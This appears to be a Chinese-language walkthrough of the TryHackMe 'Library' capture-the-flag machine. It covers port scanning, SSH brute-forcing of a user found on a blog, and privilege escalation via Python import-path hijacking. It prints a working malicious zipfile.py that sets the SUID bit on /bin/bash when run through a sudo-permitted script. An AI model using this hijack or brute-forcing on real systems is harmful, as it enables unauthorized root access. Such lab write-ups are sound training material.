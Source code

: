 ```yaml
---
sidebar_position: 57
tags: [Easy, Linux, 弱密码, SUDO]
title: Library
description: Library
sidebar_label: Library
slug: /tryhackme/57
---
```

# Library
## 端口扫描
```bash
root@ip-10-10-156-80:~/bsidesgtlibrary# nmap -sTCV  -p 22,80 --min-rate 1000 10.10.42.164

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-01 06:14 BST
Nmap scan report for ip-10-10-42-164.eu-west-1.compute.internal (10.10.42.164)
Host is up (0.00014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
MAC Address: 02:0A:43:E5:70:59 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.41 seconds
```

## 80
进行目录遍历, 但是几乎没有什么发现

![20240702215831](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702215831.png)

但是我访问 robots.txt 时其中提出

![20240702215841](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702215841.png)

这应该是让我们进行暴力破解, 结合网页中给出的信息可以得出博客作者是 meliodas, 进行SSH 暴力破解

![20240702215850](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702215850.png)

## 后渗透
### meliodas

使用得到的 SSH 密码进行登陆

![20240702215909](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702215909.png)

### meliodas —> root
此时我发现用户具有 sudo 特权, 可以执行一个 python 脚本

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
meliodas@ubuntu:~$ ls -al bak.py 
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
meliodas@ubuntu:~$ cat bak.py 
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

于是我猜测是基于 Python 的 PATH 提权, 接着我查看了 Python 的 PATH 变量, 发现是优先从当前目录查找

```bash
meliodas@ubuntu:~$  python3 -c 'import sys; print (sys.path)'
[**''**, '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
```

所以可以通过在当前目录创建 zipfile.py 文件来完成提权操作

```python
import os
ZIP_DEFLATED='ls'

def ZipFile(*name):
    os.system('chmod u+s /bin/bash')
```

然后执行程序即可

![20240702215928](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702215928.png)